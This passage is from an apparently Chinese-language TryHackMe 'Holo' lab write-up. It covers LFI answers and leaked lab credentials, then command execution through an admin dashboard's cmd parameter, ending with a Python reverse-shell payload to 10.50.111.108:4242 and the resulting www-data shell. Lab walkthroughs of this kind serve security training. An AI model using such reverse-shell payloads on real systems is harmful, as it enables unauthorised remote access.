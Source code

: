 ```
> What parameter in the file is vulnerable to LFI?

> file

> What file found from the information leak returns an HTTP error code 403 on the administrator domain?

> /var/www/admin/supersecretdir/creds.txt

> Using LFI on the development domain read the above file. What are the credentials found from the file?

> admin:DBManagerLogin!


登录admin后台，来到一个简陋的后台页面，查看网页源代码发现一行注释
```
//if ($_GET['cmd'] === NULL) { echo passthru("cat /tmp/Views.txt"); } else { echo passthru($_GET['cmd']);} 
```

看起来是接收一个cmd参数，如果为空，读取 ```/tmp/Views.txt```文件，不为空则可以执行输入的命令

使用下面payload验证
```
http://admin.holo.live/dashboard.php?cmd=whoami
```

页面输出：
```
www-data
```

使用下面payload
```
http://admin.holo.live/dashboard.php?cmd=python3 -c 'socket=__import__("socket");subprocess=__import__("subprocess");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.50.111.108",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

拿到一个rev shell
```
┌──(root💀kali)-[~/tryhackme/holo]
└─# nc -lnvp 4242            
listening on [any] 4242 ...
connect to [10.50.111.108] from (UNKNOWN) [10.200.114.33] 52394
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
